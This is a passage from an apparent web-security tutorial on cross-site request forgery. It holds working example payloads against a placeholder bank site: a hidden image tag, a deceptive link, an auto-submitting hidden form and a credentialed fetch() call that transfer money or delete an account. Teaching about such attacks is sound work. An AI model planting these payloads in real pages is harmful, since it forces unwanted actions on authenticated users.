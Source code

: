 ### Visual Representation:

```
[User] ←→ [Legitimate Site] (Authenticated Session)
   ↓
[Malicious Site] → [Forged Request] → [Legitimate Site]
                                           ↓
                                    [Unwanted Action Executed]
```

## Types of CSRF Attacks

### 1. GET-based CSRF

The simplest form where malicious requests are made using GET methods:

```html
<!-- Malicious image tag that transfers money -->
<img src="https://bank.com/transfer?to=attacker&amount=1000" 
     style="display:none;">

<!-- Malicious link -->
<a href="https://bank.com/delete-account">Click here for free gift!</a>
```

### 2. POST-based CSRF

More sophisticated attacks using POST requests:

```html
<!-- Auto-submitting form -->
<form action="https://bank.com/transfer" method="POST" id="maliciousForm">
    <input type="hidden" name="to" value="attacker">
    <input type="hidden" name="amount" value="1000">
</form>

<script>
    document.getElementById('maliciousForm').submit();
</script>
```

### 3. JSON-based CSRF

Attacks targeting APIs that accept JSON payloads:

```html
<script>
fetch('https://api.bank.com/transfer', {
    method: 'POST',
    credentials: 'include', // Include cookies
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({
        to: 'attacker',
        amount: 1000
    })
});
</script>
```
